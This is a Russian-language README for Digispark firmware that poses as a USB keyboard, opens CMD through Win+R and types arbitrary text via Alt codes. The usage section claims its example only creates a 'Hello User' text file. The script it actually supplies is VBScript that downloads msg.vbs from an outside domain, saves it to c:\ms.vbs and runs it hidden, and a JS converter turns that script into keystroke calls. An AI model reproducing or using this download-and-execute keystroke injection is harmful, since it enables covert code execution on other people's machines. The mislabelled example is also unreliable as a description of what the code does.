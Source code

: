 <p><span style="font-size:14px"># DigisparkUSBwriter<br />
<strong>Код написан (если можно это назвать кодом) и отлажен за пару вечеров, если хотите его оптимизировать и улучшить то я буду только рад.&nbsp;</strong><br />
Прошивка вводит текст в целевую систему&nbsp;через&nbsp;плату&nbsp;<strong>Digispark</strong>&nbsp;&nbsp;используя Alt Коды (<strong><span style="color:#FF0000"></span></strong> (<strong>проверено на <span style="color:#008000">Win 7, WIn 10, Raspbian</span></strong>), <strong><span style="color:#008000">работает без учёта Numlock и вне зависимости от установленного языка</span></strong>)</span><br />
<span style="font-size:16px"><strong>Возможности данной прошивки:</strong></span><br />
&nbsp; &nbsp;<span style="font-size:14px"> Вызов CMD.<br />
&nbsp; &nbsp; Ввод текста на английском, символы доступные для ввода:&nbsp;</span></p>

<ul>
	<li><span style="font-size:14px">&nbsp;abcdefghijklmnopqrstuvwxyz</span></li>
	<li><span style="font-size:14px">ABCDEFGHIJKLMNOPQRSTUVWXYZ</span></li>
	<li><span style="font-size:14px">[]\/^&#39;_(){}`&quot;@?&lt;&gt;=;:.,+-*!</span></li>
	<li><span style="font-size:14px">1234567890</span></li>
	<li><span style="font-size:14px">символ | используеться для эмуляции нажатия enter</span></li>
	<li><span style="font-size:14px">&nbsp;пробел (&quot; &quot;) используеться как побел (логично)</span></li>
</ul>

<p><span style="font-size:16px"><strong>Описание кода:</strong></span><br />
<span style="font-size:14px"><strong>&nbsp;Процедура<u> st(char sm)</u></strong><br />
&nbsp; В качестве переменной <strong><u><span style="color:#FF0000">передаётся только один символ</span></u></strong> типа char,&nbsp;<br />
&nbsp;Пример вызова:&nbsp;&nbsp;<strong>st(&#39;T&#39;);</strong>&nbsp; введёт&nbsp; в систему букву T один раз.</span></p>

<p><br />
<span style="font-size:14px"><strong>&nbsp;Процедура <u>cmd()</u></strong><br />
&nbsp; Открывает коммандную строку по&nbsp; принципу:&nbsp;</span></p>

<ol>
	<li><span style="font-size:14px">&nbsp;Эмулирует нажатие win+r</span></li>
	<li><span style="font-size:14px">Ждёт секунду (1000 милисекунд)</span></li>
	<li><span style="font-size:14px">Вводит cmd и нажимает enter&nbsp;</span></li>
	<li><span style="font-size:14px">Ждёт 3 секунды&nbsp;(3000 милисекунд) и завершает свою работу</span></li>
</ol>

<p><span style="font-size:14px">Тайминг выбран из головы, в зависимости от целевой машины можете их менять.</span></p>

<p>&nbsp;</p>

<p><span style="font-size:14px"><strong>&nbsp; Процедура&nbsp;<u>po()</u></strong></span></p>

<p><span style="font-size:14px">Пассивная процедура, используется в коде для отключения всех ранее нажатых клавиш кроме ALT.</span></p>

<p>&nbsp;</p>

<p><span style="font-size:14px">&nbsp;<u><strong>Процедура&nbsp;nl()</strong></u></span></p>

<p><span style="font-size:14px">Выполняет функционал что и процедура выше.</span></p>

<p>&nbsp;</p>

<p><span style="font-size:14px">&nbsp;<strong>Процедура keyp(byte o, byte t)</strong></span></p>

<p><span style="font-size:14px">Используется для ввода Alt кодов из процедуры <strong>st()</strong>, изначальная история создания данной процедуры заключаеться в сокращении занимаемого места в памяти микроконтроллера.</span></p>

<p>&nbsp;</p>

<p><span style="font-size:16px"><strong>Использование:</strong></span></p>

<p>Для создания на локальном диске текстового документа с текстом Hello User нам понадобиться код конвертор на js:</p>

<pre>
var str = 'dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")|dim bStrm: Set bStrm = createobject("Adodb.Stream")|xHttp.Open "GET", "https://xn--80aqah2a0c.com/msg.vbs", False|xHttp.Send|with bStrm|.type = 1|.open|.write xHttp.responseBody|.savetofile "c:\ms.vbs", 2|end with|Set WshShell = CreateObject("WScript.Shell")|WshShell.Run "c:\ms.vbs", 0, false|Set WshShell = Nothing|WScript.Quit';
var total = '';
for(var i =0;i<str.length;i++){
total+="st('"+str[i]+"');"+'<br>';
}
document.write(total);
</pre>
Использование конвертора:
Нажимаем в браузере в новой вкладке: Сtrl+Shift+R;
Переходим во кладку "Console";
Копируем код выше в консоль;
Меняем значение переменной str на своё;
Нажимаем Enter;
Получившийся код вставляем в скетч с заменой с 1008 по 1011 строку.
По вкусу в нужных местах используем Enter строчкой вида:
<pre>DigiKeyboard.sendKeyStroke(KEY_ENTER);</pre>
